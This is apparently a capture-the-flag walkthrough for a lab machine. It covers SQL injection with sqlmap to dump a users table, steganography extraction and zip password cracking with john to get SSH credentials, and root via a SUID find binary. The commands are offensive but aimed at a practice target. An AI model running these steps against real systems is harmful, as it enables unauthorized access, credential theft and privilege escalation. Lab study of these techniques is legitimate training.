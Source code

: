 # Initial Scans
* There are two ports open, 22 and 80
* After basic web app enum, we see that there is a login page, and that it is vulnerable to SQL injection. We can record the POST request and pass the request.txt file to SQLmap
```
sqlmap -vv -r auth-request.txt --dbs
sqlmap -vv -r auth-request.txt -D users --tables
sqlmap -vv -r auth-request.txt -D users -T usuarios --dump
```
* There is an entry in the users tabled named
```
directoriotravieso
```
* Which is Spanish for naughtydirectory
* So let's check out this endpoint
```
/directoriotravieso
```
# Initial Access
* There's a jpg image in here, so we download it
* Let's check to see if there's anything supsicious about this image
```
stegseek miramebien.jpg
```
* We output a file that was originally a zip file
```
mv miramebien.jpg.out ocultito.zip
zip2john ocultito.zip > ocultito.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ocultito.hash
```
* Then inside the zip file are credentials
```
ssh carlos@172.17.0.2
```
# Privilege Escalation
* We check the system for SUID binaries
```
find / -perm -4000 2>/dev/null
```
* There is a SUID binary for the Find binary
```
find . -exec /bin/bash -p \; -quit
```
We are root
